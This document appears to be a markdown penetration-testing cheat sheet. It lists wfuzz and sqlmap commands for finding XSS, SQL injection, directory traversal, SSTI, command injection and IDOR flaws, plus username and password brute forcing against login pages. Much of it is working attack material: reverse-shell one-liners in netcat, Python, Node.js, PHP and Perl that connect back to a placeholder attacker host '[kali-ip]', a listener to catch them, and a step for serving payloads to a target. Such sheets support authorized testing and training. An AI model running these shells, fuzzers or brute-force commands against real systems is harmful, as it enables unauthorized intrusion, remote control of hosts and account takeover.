 # Testing vulnerabilities 

## Serve files from Kali
1. Create folder `mkdir payloads`
2. Add files to folder that you want to serve to target machine 
3. `cd` to the created folder 
4. Execute command to start serving the files:
```shell
python3 -m http.server 80
```

## XSS
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

## SQL Injection

### Fuzzing GET parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```

### Fuzzing POST parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

### sqlmap GET parameter
```shell
sqlmap -u "$URL/index.php?id=1"
```

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.txt` file
```shell
sqlmap -r post.txt -p parameter
```


## Directory Traversal

### Fuzzing LFI default file paths
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

### Fuzzing LFI app specific files
Create two wordlists:
1. Containing paths (paths.txt):
   ../
   ../../
   etc.
2. Containing custom files related to the web technology used (files.txt): 
   application.properties
   applitcation.yml
```shell
wfuzz -w paths.txt -w files.txt --hh 0 "$URL/index.php?id=FUZZFUZ2Z"
```

## XXE

### Fuzzing XXE 
Wordlist to use in Burp Suite Intruder for fuzzing XXE: `/usr/share/seclists/Fuzzing/XXE-Fuzzing.txt`

## Server-side Template Injection 

### Fuzzing SSTI 
```plaintext
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

## Command Injection 

### Fuzzing command injection 
```shell
wfuzz -c -z file,"/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt" --sc 200 "$URL/index.php?parameter=idFUZZ"
```

### Setup reverse shell listener 
```shell
nc -nlvp 4242
```

### Reverse shell Netcat 
```shell
/bin/nc -nv [kali-ip] 4242 -e /bin/bash
```

### Reverse shell Python 
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[kali-ip]",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Reverse shell Node.js 
```shell
echo "require('child_process').exec('nc -nv [kali-ip] 4242 -e /bin/bash')" > /var/tmp/shell.js ; node /var/tmp/shell.js
```

### Reverse shell PHP
```php
php -r '$sock=fsockopen("[kali-ip]",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

### Reverse shell Perl
```shell
perl -e 'use Socket;$i="[kali-ip]";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## IDOR 

### Static file IDOR 
```shell
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ.txt"
```

### ID based IDOR 
```shell
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ"
```

## Brute forcing 

### Users discovery

```shell
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/login.php?user=FUZZ"
```

### Password discovery
```shell
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404,403 -d "username=admin&password=FUZZ" "$URL/login.php"
```
